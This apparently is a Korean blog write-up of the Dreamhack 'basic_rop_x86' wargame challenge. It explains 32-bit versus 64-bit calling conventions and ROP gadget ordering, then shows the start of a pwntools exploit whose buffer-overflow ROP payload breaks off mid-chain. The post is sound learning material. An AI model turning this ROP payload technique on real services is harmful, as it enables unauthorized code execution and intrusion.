 <br/>

우선, Calling Convention, 즉 함수호출규약이 다르다는 부분에서 payload가 달라진다. 64비트에서는 System V 함수호출규약을 사용하므로, 함수가 호출될 때 rax, rdi, rsi, rdx 등의 레지스터에 우선적으로 parameter 값들을 전달한다. 물론, 그 이후 함수의 Stack Frame이 생성되면 거기서 레지스터에 담긴 값들을 사용한다. 반면, 32비트에서는 cdecl, fastcall 등의 규약에 의해서, 대부분 **stack을 통해 parameter들을 전달**한다.

### 첫번째 의문점

여기서 구글링을 하다가 문득 큰 의문점이 생겨서 엄청 고민한 부분이 있다. 이전 포스팅에서도 알 수 있듯이, 64비트에서는 payload에서 return gadget chain 코드를 작성할 때, **'가젯 코드 + 해당 레지스터에 들어갈 값들 + 호출할 함수의 plt'**로 구성했었다. 그러나 32비트에서는 순서를 다르게 호출해야된다고 한다. **'왜 x86에서는 함수 호출 순서가 함수호출 + (가젯 코드) + 인자1 + 인자2 + 인자3 ... 이렇게 되는거지?'** 내가 가진 의문점이었고, 계속 고민 끝에 나만의 결론에 도달했다.

<br/>

생각보다 간단했다. 분명 어셈블리어에서는, push 인자3; push 인자2; push 인자1; call 함수 지만, 애초에 이 말 자체가, **'스택에 올리기 위해서 순서를 거꾸로 한것'**이기 때문이다. 저 어셈블리어의 결과를 스택에서 보면, 결국 스택에서는 함수 호출 + 인자 1 + 인자2 + 인자3 순서대로 이다..! **payload 역시 바로 스택에 값을 집어넣는것**이기 때문에, 순서를 거꾸로 할 필요가 없지!

### 두번째 의문점

그 다음으로는, 64비트에 대한 의문점이 갑자기 들었다. **'64비트에서 함수 인자는 레지스터로 전달되는데, 문득, 그러면 스택 버퍼 오버플로우는 어떻게 일어나는거지?'**라는 의문이 들었다. 왜냐면, 버퍼도 레지스터로 전달될거니까.. 그래서 gdb코드를 잘 보니까, 예를 들어 함수 호출 직전에 lea rax, [rbp-0x40]라는 명령어를 잘 보면, 해당 레지스터에 아예 스택의 주소를 전달해버린다. 그러니 사실상 스택에 얹혀지는 것과 같은거지. 그리고 어차피, 레지스터로 인자전달을 하고 함수가 호출되면, 함수 프롤로그에서 그 값들을 필요한 시기에 스택으로 옮긴다.

### 세번째 의문점

그렇게 두번째 의문점까지 어느정도 해결하고 나서, payload를 작성하고 있는데, 다른 분들의 payload 예시코드를 참고하다보니, pop pop pop ret 가젯을 32비트에서도 쓰고 있었다. 여기서 세번째 의문이 들었다. **'아니.. x86에서는 스택에 push해서 인자를 전달하는데, 왜 pop edi; pop esi; pop ebp; ret 같은 것을 그대로 쓰는거지? push 가젯을 써야 되는거 아닌가? pop 가젯은 피연산자인 레지스터에 값을 넣기 위한 것이잖아?'** 라는 생각이 들었다. 내가 생각해도 좋은 의문점이다.(...)

<br/>

그래서 구글링을 하면서 깨달았다. **x86에서는 pop의 피연산자는 의미가 없다는것.** 왜 그럴까 생각해보니, 이미 payload를 작성할때, pop 가젯 주소 + 인자1 + 인자2 + 인자3 (x86순서기준)로 작성하는데, **이 payload는 이미 BOF되었으므로 이미 Stack에 그대로 들어간다. 즉, 첫번째 의문점에서 해결한 것 처럼, push를 안해도 이미 스택에 있다는 것이지.** 그렇기에, **pop을 3번하는 이유는 (write,read 함수기준으로) 인자 3개부분이 스택에 있고, 그 부분을 지나쳐야 다음 함수가 호출될 수 있게 하기 위해서, esp 레지스터를 옮기는 (증가시키는) 것이다.**

## 익스플로잇 구현, 그리고 마지막 의문점 해결

이렇게 든 의문들을 종합하여 해결한 최종 익스플로잇 코드이다.

```py
from pwn import *

p = remote('host3.dreamhack.games', 16259)
e = ELF('./basic_rop_x86')
libc = ELF('./libc.so.6')

read_plt = e.plt['read']
read_got = e.got['read']
write_plt = e.plt['write']
write_got = e.got['write']

binsh = e.bss()

read_offset = libc.symbols['read']
write_offset = libc.symbols['write']

pop_x3_ret_addr = 0x08048689
pop_ret_addr = 0x0804868b

payload = b'A'*0x44 + b'B'*0x4
payload += p32(write_plt)
payload += p32(pop_x3_ret_addr)
```